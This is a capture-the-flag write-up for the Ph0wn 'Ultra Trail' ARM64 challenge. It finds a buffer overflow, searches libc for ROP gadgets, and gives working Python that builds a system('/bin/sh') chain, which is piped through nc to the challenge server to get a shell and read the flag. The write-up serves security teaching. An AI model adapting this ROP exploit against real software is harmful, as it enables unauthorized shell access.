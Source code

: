 ## Ph0wn Ultra Trail by @cryptax and @therealsaumil

### Locating buffer overflow

`./trail` is an ARM64 ELF executable. It is not stripped:

```
$ file trail 
trail: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=6159d835d9a1906975a278e1724633884be46f49, for GNU/Linux 3.7.0, not stripped
```

The participant environment contains a fake flag in `/FLAG`:

```
[arm64] ~$ ls -al
total 444
drwxr-xr-x 5 r0   r0     4096 Oct 31 13:50 ./
drwxr-xr-x 3 root uucp   4096 Jul 23  2022 ../
-rwxr-xr-x 1 r0   r0      198 Oct 24 08:13 ._trail*
-rw-r--r-- 1 r0   r0      220 Jul 23  2022 .bash_logout
-rw-r--r-- 1 r0   r0     3526 Jul 23  2022 .bashrc
drwxr-xr-x 2 r0   r0     4096 Nov 25 06:15 .dircolors/
-rw-r--r-- 1 r0   r0      120 Dec 14  2022 .gdbinit
-rw-r--r-- 1 r0   r0   392824 Dec 24  2022 .gdbinit-gef.py
-rw-r--r-- 1 r0   r0        0 Dec 14  2022 .hushlogin
-rw-r--r-- 1 r0   r0      987 Dec 14  2022 .profile
drwx------ 2 r0   r0     4096 Nov 25 06:15 .ssh/
-rw------- 1 r0   r0      763 Jan  2  2023 .viminfo
-rw-r--r-- 1 r0   r0      215 Dec 24  2022 .wget-hsts
drwxrwxr-x 2 r0   r0     4096 Oct 30 09:31 shared/
-rwxr-xr-x 1 r0   r0     9576 Oct 24 08:13 trail*
[arm64] ~$ ls /
FLAG  boot/  etc/   lib/         media/  opt/   root/  sbin/  sys/  usr/
bin/  dev/   home/  lost+found/  mnt/    proc/  run/   srv/   tmp/  var/
[arm64] ~$ cat /FLAG
ph0wn{replace-with-final-flag}
```

This is an exploit challenge. We quickly identify there is a buffer overflow:

```
$ ./trail
---------- ==== PH0WN ULTRA TRAIL ==== ---------
               ~ Only 1337 kms ~
               REGISTRATION SERVER
Runner name: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, you have successfully been registered
Good luck!
Segmentation fault (core dumped)
```

GEF is installed in the environment, so we load `gdb`, generate a long pattern and feed it to the binary to see what our stack and registers look like.

![Use "pattern create 200" to generate a long pattern in GEF](./images/pattern-gef.png)

Use the GEF command `registers` to show registers.

![We notice x5, x14, x15, x29, x30, SP and PC have been overflowed](./images/gef-overflow.png)

So, we are able to control:

- x29 aka Frame Pointer
- x30 aka Link Register (return address of functions)
- PC
- x31 aka Stack Pointer

### Creating the exploit

We want to exploit the buffer overflow to get a shell on the device and read the flag. As the description seems to hint ("HOP ROP ROP"), we try to **ROP**.
Return Oriented Programming is more difficult on ARM64 for several reasons:

1. Usage of PC is restricted (unlike ARM32)
2. Only few instructions support SP as an operand on ARM64
3. Stack memory is not executable. Because of that a simple buffer overflow with nops + shellcode won't work on ARM64... which is why we have to turn to ROP.

Additionally, there are a few differences with ARM32 such as, of course, different instructions, but also, in ARM64, the return address is stored at the top of the frame (whereas it's at the bottom for ARM32). This is the ARM64 frame layout:

- SP --> x29 Frame Pointer
- x30 Link Register containing the return address
- Local variables
- ...

Let's go back to our ROP idea. We're going to use gadgets from the libc. Basically, the idea is to execute `system("/bin/sh")`, where `system` is a function in the libc.

`system` is located at 0x43c90. Also, note the libc starts at 0x0000fffff7e56000.

```
gef>  xinfo system
Page: 0x0000fffff7e56000  ->  0x0000fffff7fb3000 (size=0x15d000)
Permissions: r-x
Pathname: /lib/aarch64-linux-gnu/libc-2.31.so
Offset (from page): 0x43c90
Inode: 21282698
Segment: .text (0x0000fffff7e79d00-0x0000fffff7f6bc50)
Offset (from segment): 0x1ff90
Symbol: system
```

We need to pass a parameter to `system` (`/bin/sh`). To do so, we need to set x0 (first argument) to SP (`x0 = sp`).

We are going to search for a gadget in the libc that moves SP to x0 with [Ropper](https://github.com/sashs/Ropper). 

```
~/shared/rop64$ ropper 
(ropper)> file libc-2.31.so
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.
```

Search for gadgets with one instruction (`/1/`):

```
(libc-2.31.so/ELF/ARM64)> search /1/ mov x0, sp
[INFO] Searching for gadgets: mov x0, sp
```

There are none, so we try another way to set x0, using the `add` instruction and 2 instructions:

```
(libc-2.31.so/ELF/ARM64)> search /2/ add x0, sp
[INFO] Searching for gadgets: add x0, sp

[INFO] File: libc-2.31.so

0x00000000000a4564: add x0, sp, #0x10; eor x1, x1, x2; blr x1; 
0x00000000000ce60c: add x0, sp, #0x10; eor x1, x2, x3; blr x1; 
0x00000000000978b0: add x0, sp, #0x110; str x2, [sp, #0x110]; blr x25; 
```

The first gadget is usable, but not "perfect". It branches at the end to *x1*. We want it to branch to `system`, so we need to find a way to set x1. We are going to find for a gadget that helps set x1 to an arbitrary value. We use ropper once again to find such a gadget.

```
libc.so.6/ELF/ARM64)> search /1/ ldr x1, [sp
[INFO] Searching for gadgets: ldr x1, [sp

[INFO] File: libc.so.6
0x00000000000f78c4: ldr x1, [sp, #0x60]; blr x1; 
0x00000000000ca2e8: ldr x1, [sp, #0x78]; blr x4; 
0x0000000000102098: ldr x1, [sp, #0x80]; blr x2; 
0x00000000000ff6c8: ldr x1, [sp, #0x90]; blr x2; 
0x00000000000f7d7c: ldr x1, [sp, #0xc0]; blr x1; 
```

Those are branching to x1, x4 etc. We'd like something that sets x1 and returns. We continue our research. With 2 instructions, no better. But with 3 instructions, the first one is interesting.

```
(ropper)> search /3/ ldr x1, [sp
0x00000000000311b8: ldr x1, [sp, #0x18]; mov x0, x1; ldp x29, x30, [sp], #0x20; ret; 
0x00000000000f8e8c: ldr x1, [sp, #0x40]; mov x0, x20; ldr x1, [x1, #0x20]; blr x1; 
...
```

This first gadget stores `x1=sp + 0x18`, then moves x1 in x0 (x0 contains the return value) and finally does a `ret`. So it will return x1.

### Wrapping up the exploit

So, we need to:

1. Launch the second gadget and set x1 to the address of `system`
2. Launch the first gadget with x0 pointing to `/bin/sh`

```python
# the address of libc
libc_base = 0x0000fffff7e56000

# "second" gadget - which sets x1
ldr_x1_sp_18_ret = libc_base + 0x00000000000311b8

# first gadget that sets x0 
add_x0_sp_10_blr_x1 = libc_base + 0x00000000000a4564

# address of system
system = libc_base + 0x43c90
```

Then, we craft the buffer overflow. 

```python
def p64(value):
    return(struct.pack("<Q", value)) # little byte order

buf = b"A" * 40

rop = b""
rop += p64(ldr_x1_sp_18_ret)
rop += p64(0x4848484848484848)
rop += p64(add_x0_sp_10_blr_x1)
rop += p64(0x5050505050505050)

# this value, 0xfbad2a84 appears in x2, we have to XOR it to point to system
rop += p64(system ^ 0xfbad2a84) 
rop += p64(0x5252525252525252)
rop += p64(0x5353535353535353)

rop += b"/bin/sh;#"

buf = buf + rop

payload = buf + b"\n"

sys.stdout.buffer.write(payload)
```

### Running the exploit

```
$ (python3 ./solution.py ; cat -) | nc chal.ph0wn.org 9123
---------- ==== PH0WN ULTRA TRAIL ==== ---------
               ~ Only 1337 kms ~
               REGISTRATION SERVER
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[..junk...]RRRRRRRRSSSSSSSS/bin/sh;#
Runner name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...junk...], you have successfully been registered
Good luck!
id
id
uid=1000(r0) gid=1000(r0) groups=1000(r0),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),102(netdev)
uname -a
uname -a
Linux arm64 5.10.7 #8 SMP PREEMPT Thu Dec 29 20:34:15 UTC 2022 aarch64 GNU/Linux
ls /
ls /
bin   dev  FLAG  lib	     media  opt   root	sbin  sys  usr
boot  etc  home  lost+found  mnt    proc  run	srv   tmp  var
cat /FLAG
cat /FLAG
ph0wn{is_there_h0pe_4_r0pe}
```

![Every Ph0wnMag needs its Pico le croco. See Pico in a trail.](./images/2015-09-PicoFitness.jpg)

